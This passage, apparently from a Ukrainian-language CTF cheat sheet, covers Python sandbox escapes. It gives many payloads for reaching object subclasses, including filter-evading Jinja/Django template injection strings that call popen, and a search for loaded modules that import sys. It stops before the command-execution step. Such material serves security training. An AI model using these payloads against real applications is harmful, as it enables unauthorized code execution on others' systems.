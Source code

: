 Тут я хочу пояснити, як легко виявити **більш небезпечні завантажені функціональні можливості** та запропонувати більш надійні exploits.

#### Доступ до subclasses з bypasses

Одна з найчутливіших частин цієї техніки — можливість отримати доступ до базових subclasses. У попередніх прикладах це було зроблено за допомогою `''.__class__.__base__.__subclasses__()` але існують **інші можливі способи**:
```python
#You can access the base from mostly anywhere (in regular conditions)
"".__class__.__base__.__subclasses__()
[].__class__.__base__.__subclasses__()
{}.__class__.__base__.__subclasses__()
().__class__.__base__.__subclasses__()
(1).__class__.__base__.__subclasses__()
bool.__class__.__base__.__subclasses__()
print.__class__.__base__.__subclasses__()
open.__class__.__base__.__subclasses__()
defined_func.__class__.__base__.__subclasses__()

#You can also access it without "__base__" or "__class__"
# You can apply the previous technique also here
"".__class__.__bases__[0].__subclasses__()
"".__class__.__mro__[1].__subclasses__()
"".__getattribute__("__class__").mro()[1].__subclasses__()
"".__getattribute__("__class__").__base__.__subclasses__()

# This can be useful in case it is not possible to make calls (therefore using decorators)
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]() # From https://github.com/salvatore-abello/python-ctf-cheatsheet/tree/main/pyjails#no-builtins-no-mro-single-exec

#If attr is present you can access everything as a string
# This is common in Django (and Jinja) environments
(''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(132)|attr('__init__')|attr('__globals__')|attr('__getitem__')('popen'))('cat+flag.txt').read()
(''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fmro\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')(1)|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('popen'))('cat+flag.txt').read()
```
### Знаходження завантажених небезпечних бібліотек

Наприклад, якщо ви знаєте, що за допомогою бібліотеки **`sys`** можна **import arbitrary libraries**, ви можете знайти всі **modules loaded that have imported sys inside of them**:
```python
[ x.__name__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ]
['_ModuleLock', '_DummyModuleLock', '_ModuleLockManager', 'ModuleSpec', 'FileLoader', '_NamespacePath', '_NamespaceLoader', 'FileFinder', 'zipimporter', '_ZipImportResourceReader', 'IncrementalEncoder', 'IncrementalDecoder', 'StreamReaderWriter', 'StreamRecoder', '_wrap_close', 'Quitter', '_Printer', 'WarningMessage', 'catch_warnings', '_GeneratorContextManagerBase', '_BaseExitStack', 'Untokenizer', 'FrameSummary', 'TracebackException', 'CompletedProcess', 'Popen', 'finalize', 'NullImporter', '_HackedGetData', '_localized_month', '_localized_day', 'Calendar', 'different_locale', 'SSLObject', 'Request', 'OpenerDirector', 'HTTPPasswordMgr', 'AbstractBasicAuthHandler', 'AbstractDigestAuthHandler', 'URLopener', '_PaddedFile', 'CompressedValue', 'LogRecord', 'PercentStyle', 'Formatter', 'BufferingFormatter', 'Filter', 'Filterer', 'PlaceHolder', 'Manager', 'LoggerAdapter', '_LazyDescr', '_SixMetaPathImporter', 'MimeTypes', 'ConnectionPool', '_LazyDescr', '_SixMetaPathImporter', 'Bytecode', 'BlockFinder', 'Parameter', 'BoundArguments', 'Signature', '_DeprecatedValue', '_ModuleWithDeprecations', 'Scrypt', 'WrappedSocket', 'PyOpenSSLContext', 'ZipInfo', 'LZMACompressor', 'LZMADecompressor', '_SharedFile', '_Tellable', 'ZipFile', 'Path', '_Flavour', '_Selector', 'JSONDecoder', 'Response', 'monkeypatch', 'InstallProgress', 'TextProgress', 'BaseDependency', 'Origin', 'Version', 'Package', '_Framer', '_Unframer', '_Pickler', '_Unpickler', 'NullTranslations']
```
Їх багато, і **нам потрібен лише один**, щоб виконати команди: